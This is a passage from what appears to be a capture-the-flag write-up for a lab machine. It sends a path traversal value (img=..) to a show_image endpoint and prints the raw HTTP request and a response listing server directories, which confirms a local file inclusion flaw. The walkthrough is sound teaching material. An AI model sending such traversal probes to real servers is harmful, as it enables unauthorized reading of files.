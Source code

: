 When uploading an image (ex:`file.jpg`), the file is accepted:

![Web Homepage](web_upload_form_success.png)

There is a filter on the upload form, on the extension, or mimetype, or something.

The link provided to get uploaded image is something like :

`http://10.10.11.204:8080/show_image?img=file.jpg`

Use BrupSuite with the repeater tool to analyse this request, a LFI quickly appears when `img=..`

Request :

```text
GET /show_image?img=.. HTTP/1.1
Host: 10.10.11.204:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

Response :

```
HTTP/1.1 200 
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 4096
Date: Sun, 09 Apr 2023 19:09:39 GMT
Connection: close

java
resources
uploads

```

A LFI is found.
